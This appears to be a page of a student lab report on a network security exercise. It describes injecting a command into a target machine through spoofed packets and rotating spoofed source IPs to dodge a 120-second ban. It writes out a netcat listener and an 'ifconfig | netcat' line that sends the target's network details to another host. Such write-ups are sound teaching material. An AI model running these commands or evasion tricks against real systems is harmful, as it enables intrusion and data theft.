 \documentclass{article}
\begin{document}
The ID \& acknowledge sequence values were left out because they are not required explicitly and tgn would fill in default values automatically. After experimenting with this functionality, we discovered that IP's would be banned from sending for 120 seconds by the receiving PC in case they sent more than 10 consecutive packets to the computer.

\subsection*{Rep. 3d - Running ifconfig and transferring data to the Tom-PC}
First, netcat was set up to listen on port 1024 on the Tom-computer using the command:

\begin{verbatim}
netcat -l 1024
\end{verbatim}

The command the needed to be executed on the other computer is:

\begin{verbatim}
ifconfig | netcat 192.168.67.31 1024
\end{verbatim}

Using the capabilities explored in the previous section, the code was pieced together by using the decimal values of the ASCII characters of the command, and wrote bash script that executed the command for each character. A carriage return was included at the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)

\newpage
After running the script the ifconfig information of Jerry's computer can be seen on Tom's Terminal:
\end{document}
